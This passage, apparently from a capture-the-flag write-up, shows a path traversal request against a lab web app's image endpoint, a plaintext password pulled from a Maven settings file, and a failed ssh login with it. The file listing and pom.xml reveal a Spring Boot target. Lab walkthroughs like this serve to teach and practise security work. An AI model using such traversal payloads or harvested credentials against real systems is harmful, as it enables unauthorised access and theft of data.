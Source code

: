 ```
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```

We now have some information about the user `Phil` !
```
user: phil
psswd: DocPhillovestoInject123
```

I tried connecting with `ssh` using the credentials but it seemed impossible...
```
ssh phil@10.10.11.204
```

Let's check if other directories have interesting files. For example, in  ```/var/www/WebApp/```
```
curl -s -X GET "http://10.10.11.204:8080/show_image?img=../../.."
```

In the output there's a ```pom.xml``` file !
```
.classpath
.DS_Store
.idea
.project
.settings
HELP.md
mvnw
mvnw.cmd
pom.xml
src
target
```

Let's view its content
```
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>
    <parent>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-parent</artifactId>
        <version>2.6.5</version>
        <relativePath/> <!-- lookup parent from repository -->
    </parent>
    <groupId>com.example</groupId>
    <artifactId>WebApp</artifactId>
    <version>0.0.1-SNAPSHOT</version>
    <name>WebApp</name>
    <description>Demo project for Spring Boot</description>
    <properties>
        <java.version>11</java.version>
    </properties>
    ...
```
> It appears that the project runs on `Spring Framework`!
